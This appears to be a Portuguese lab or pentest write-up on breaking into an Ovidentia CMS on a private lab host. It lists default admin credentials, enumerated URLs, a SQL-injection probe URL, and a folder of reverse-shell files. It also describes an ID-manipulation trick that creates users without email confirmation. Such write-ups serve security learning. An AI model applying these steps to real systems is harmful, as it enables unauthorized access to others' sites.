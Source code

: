         Login with the following data at the prompt:
	User    : admin@admin.bab
	Password: 012345678
</pre>


Links:

http://192.168.90.80:8080/PHP/skins/theme_default/ovml/test.html

http://192.168.90.80:8080/PHP/skins/theme_default/ovml/%3COVPostUrl%20htmlentities=

http://192.168.90.80:8080/PHP/index.php?babrw=root/DGAll/babUser/babUserSection/babUserFm

http://192.168.90.80:8080/PHP/skins/theme_default/templates/page.html#

http://url-to-access-your-site/index.php?tg=version&idx=addons&from=ovidentia_old

http://url-to-access-your-site/index.php?tg=contact&idx=modify&item=-99999' 

http://url-to-access-your-site/index.php?tg=login&referer=index.php&login=login&sAuthType=Ovidentia&nickname=admin&password=123&submit=Login

http://192.168.90.80:8080/PHP/filemanager/users/U1/Germano/

http://192.168.90.80:8080/testmysql.php

># Exploração

Conforme inumeração, encontrei a seguinte página:

http://192.168.90.80:8080/PHP/

Nela estava disponível o sistema "OVIDENTIA"

Fuçando, encontrei a url para login:

http://192.168.90.80:8080/PHP/index.php?tg=login&cmd=authform&msg=You+must+be+logged+in+to+access+this+page.&err=

Encontrei também na enumeração, uma url contendo arquivos de shell reverso no nome de GERMANO:

http://192.168.90.80:8080/PHP/filemanager/users/U1/Germano/

Encontrei uma página de registro de usuário, mas ela pedia confirmação mas não enviava a confirmação para o email:

http://192.168.90.80:8080/PHP/index.php?tg=login&cmd=register

(h)
Na aba "directory" havia a possibilidade de fazer upload de arquivos mas não havia conseguido fazer nada demais com ela. Com ajuda, descobri que clicando com o botão direito no "add" e mandando abrir a janela flutuante em uma nova aba, era possível manipular a url. Possibilitando assim a criação de um usuário sem confirmação via email:
<pre>
http://192.168.90.80:8080/PHP/index.php?tg=directory&idx=adbc&id=2
</pre>
Bastava mudar o id para "1":

http://192.168.90.80:8080/PHP/index.php?tg=directory&idx=adbc&id=1

Assim só precisava preencher alguns campos e logo seria criado um usuário novo.
